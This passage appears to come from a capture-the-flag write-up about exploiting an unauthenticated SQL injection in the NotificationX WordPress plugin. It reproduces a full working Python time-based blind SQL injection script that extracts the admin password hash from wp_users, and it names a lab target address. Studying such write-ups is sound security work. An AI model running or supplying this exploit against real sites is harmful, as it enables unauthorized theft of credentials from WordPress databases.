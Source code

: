 The NotificationX plugin for WordPress is vulnerable to SQL Injection via the `'type'` parameter in all versions up to, and including, 2.8.2 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database. This is because a user-supplied parameter is directly used to construct an SQL query, without any sanitization and/or validation.
The vulnerability has a score of 9.8/10 (CRITICAL), which is completely understandable due to its severity. Its time to do our exploit to find the admin's password.

# Task 4: Finding the admin's password

The same website that gave us all the information about the vulnerability also gives us a python exploit to explore that vulnerability:

```python
import requests
import string
from sys import exit

# Sleep time for SQL payloads
delay = 0.3

# URL for the NotificationX Analytics API
url = "http://localhost/wp-json/notificationx/v1/analytics"

admin_password_hash = ""

session = requests.Session()

for idx in range(1, 41):
    # Iterate over all the printable characters + NULL byte
    for ascii_val in (b"\x00"+string.printable.encode()):
        # Send the payload
        resp = session.post(url, data = {
                "nx_id": 1337,
                "type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx},1))={ascii_val},SLEEP({delay}),null)-- -"
            }
        )

        # Elapsed time > delay if delay happened due to SQLi
        if resp.elapsed.total_seconds() > delay:
            admin_password_hash += chr(ascii_val)
            # Show what we have found so far...
            print(admin_password_hash)
            # Exit condition - encountered a null byte
            if ascii_val == 0:
                print("[*] Admin password hash:", admin_password_hash)
                exit(0)
```

We do need to adapt this to our case though, I knew this exploit would work from the start because when checking the `http://44.242.216.18:5008/wp-json/` page we did found the path of the notificationx that we need: 
